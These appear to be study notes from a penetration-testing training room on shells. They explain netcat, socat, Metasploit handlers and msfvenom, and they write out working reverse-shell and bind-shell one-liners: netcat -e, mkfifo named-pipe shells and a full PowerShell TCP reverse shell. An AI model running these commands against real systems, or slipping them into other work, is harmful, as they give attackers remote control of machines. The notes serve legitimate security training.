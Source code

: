 A shell is software that allows a user to interact with an OS. It can be a graphical interface, but it is usually a command-line interface, and this will depend on the operating system running on the target system.  
In cyber security, it commonly refers to a specific shell session an attacker uses when accessing a compromised system, allowing them to run commands and execute software. This will allow attackers to execute several activities, some of which are described below.

- **Remote System Control**: allows the attacker to execute commands or software remotely in the target system.
- **Privilege Escalation**
- **Data Exfiltration**
- **Persistence and Maintenance Access**
- **Post-Exploitation Activities**
- **Access Other Systems on the Network** This is also known as pivoting.
There are a variety of tools that we will be using to receive reverse shells and to send bind shells. In general terms, we need malicious shell code, as well as a way of interfacing with the resulting shell. We will discuss each of these briefly below:
### Netcat
Netcat is the traditional "Swiss Army Knife" of networking. It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, but more importantly for our uses, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by techniques that we will be covering in an upcoming task.
### Socat
Socat is like netcat on steroids. It can do all of the same things, and _many_ more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

1. The syntax is more difficult
2. Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.
### Metasploit -- multi/handler
The `exploit/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. Due to being part of the Metasploit framework, multi/handler provides a fully-fledged way to obtain stable shells, with a wide variety of further options to improve the caught shell. It's also the only way to interact with a _meterpreter_ shell, and is the easiest way to handle _staged_ payloads
### Msfvenom
Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly. Whilst msfvenom can generate payloads other than reverse and bind shells, these are what we will be focusing on in this room.

### Other useful links
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[PentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[SecLists](https://github.com/danielmiessler/SecLists)

## Types of Shells
### Reverse Shell
Are when the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools to set up a listener which is used to receive the connection. Reverse shells are a good way to bypass firewall rules, but the drawback is that, you need to configure your network to receive a shell across the internet.
On the attacking machine: `sudo nc -lvnp 443`
On the target: `nc <LOCAL-IP> <PORT> -e /bin/bash`
### Bind Shell
Are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.
On the target: `nc -lvnp <port> -e "cmd.exe"`
On the attacking machine: `nc MACHINE_IP <port>`

### Interactive vs Non-Interactive
#### Interactive
These allow you to interact with programs after executing them. For example, the SSH login prompt.
`python -c 'import pty; pty.spawn("/bin/bash")'`
### Non-Interactive
In a non=interactive shell you are limited to using programs which do not require  user interaction in order to run properly. Unfortunately, the majority of simple reverse and bind shells are non-interactive.

# Shell Payloads
`netcat-traditional` there is no `-e` option which allows you to execute a process on connection.
On linux we can use this code to create a listener for a bind shell:
`mkfifo /tmp/f; nc -lnvp <PORT> < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f`

The command first creates a _[named pipe](https://www.linuxjournal.com/article/2156)_ at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat connects the input of the listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr ouput steam into stdout, and sending stout itself into the input of the named pipe, thus completing the circle.

A very similar command can be used to send a netcat reverse shell:
`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell. It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

